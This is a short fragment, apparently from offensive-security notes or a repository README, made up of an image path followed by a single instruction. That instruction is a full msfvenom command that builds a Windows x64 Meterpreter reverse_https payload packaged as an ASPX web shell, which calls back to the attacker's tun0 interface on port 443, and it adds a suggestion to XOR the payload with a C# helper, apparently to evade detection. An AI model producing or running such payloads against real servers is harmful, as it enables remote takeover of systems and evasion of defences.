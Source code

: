 Use `msfvenom -p windows/x64/meterpreter/reverse_https --arch x64 --platform windows LHOST=tun0 LPORT=443 -f aspx -o shell.aspx` and xor with CSharp helper file.